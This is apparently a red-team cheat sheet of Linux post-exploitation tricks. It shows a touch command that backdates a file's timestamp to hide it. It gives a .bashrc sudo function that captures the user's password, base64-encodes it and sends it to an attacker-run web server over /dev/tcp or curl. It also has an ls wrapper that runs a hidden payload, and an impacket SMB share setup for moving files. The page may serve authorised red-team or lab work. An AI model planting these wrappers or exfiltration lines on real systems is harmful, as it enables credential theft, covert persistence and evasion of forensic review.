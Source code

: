 Often when uploading files or modifying existing files, the date stamps can be a clue that this file is out of the ordinary. Use the <code>touch</code> command to hide them.

&nbsp;&nbsp;&nbsp;&nbsp;<code>touch -d "5 January 2021" /.abc</code>

### Malicious sudo replacement

add this function to .bashrc in users' profile. If they use bash, the next time they open a session and sudo, the pw will be sent to the web server you run or alternatively you can write it to a file

~~~
function sudo () 
{ 
    realsudo="/usr/bin/sudo"
    #read -s "inputPasswd?[sudo] password for $USER: " #use this line for ZSH
    read -s -p "[sudo] password for $USER: " inputPasswd #use this line for bash
    printf "\n"
  #  printf '%s\n' "$USER : $inputPasswd" > /tmp/llcv #use this to write to a file
    encoded=$(printf '%s' "$USER : $inputPasswd" | base64) > /dev/null 2>&1    
   # curl -s "http://127.0.0.1:8989/$encoded" > /dev/null 2>&1 #use this for zsh
    exec 3<>/dev/tcp/127.0.0.1/80;echo -e "GET /bash$encoded HTTP/1.1\r\nhost: http://127.0.0.1\r\nConnection: close\r\n\r\n" >&3 #edit this line with your webserver that is listening
    $realsudo -S -u root bash -c "exit" <<< "$inputPasswd" > /dev/null 2>&1
    $realsudo "${@:1}"
}
 
~~~

### Malicious binary replacement
add this function to .bashrc in users' profile. If they use bash the next time the run the command you specify, it will also execute whatever you want and also run the user's requested command. you have to edit the function name to match a common bin file name, update the cmd to point to the full path of the bin the user is actually requesting, and update the payload that you want to run. This example will run whenever a user runs the 'ls' command.

~~~
function ls () 
{ 
    cmd="/usr/bin/ls"
    $cmd "${@:1}"
    echo "flag value you want to write here" > /tmp/flag
}
~~~

### Quick mountable SMB share from a linux redteam box

On the system acting as a server:

&nbsp;&nbsp;&nbsp;&nbsp;<code>impacket-smbserver -smb2support -username batman -password superman files /tmp</code>

From a client, create a mount point wherever you want, and then mount the share using:

&nbsp;&nbsp;&nbsp;&nbsp;<code>sudo mount t cifs -o ver=2.0,username=user_name,password=password //server_name/share_name /mnt/share_name</code>
